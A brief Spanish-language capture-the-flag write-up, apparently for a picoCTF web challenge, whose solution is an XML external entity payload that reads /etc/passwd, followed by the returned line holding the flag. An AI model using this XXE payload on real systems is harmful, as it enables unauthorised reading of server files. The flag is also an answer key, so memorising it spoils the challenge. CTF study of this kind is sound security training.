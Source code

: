 #### - **Descripción** 
El proyecto web se realizó con prisas y no se realizó ninguna evaluación de seguridad. ¿Puedes leer el archivo /etc/passwd?
Habrá detalles adicionales disponibles después de lanzar su instancia de desafío.

**Pista**
Inyección de entidad externa XML
#### - **Solución** 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<data><ID>
&xxe;
</ID></data>
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}